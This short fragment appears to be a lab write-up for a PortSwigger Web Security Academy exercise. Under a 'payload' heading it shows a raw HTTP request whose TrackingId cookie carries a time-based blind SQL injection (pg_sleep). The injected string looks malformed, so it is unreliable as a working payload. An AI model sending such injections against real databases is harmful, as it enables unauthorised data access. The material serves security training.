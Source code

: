 ##### payload

GET /filter?category=Gifts HTTP/2
Host: 0a9b0084043eeb45829e0cf800be0043.web-security-academy.net
Cookie: TrackingId=6HpCkYaOc6TeRpYD _' OR SELECT pg_sleep(20)--_; session=7s2BCUylZgnP3WTuooey03ra81K01D3g
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9b0084043eeb45829e0cf800be0043.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

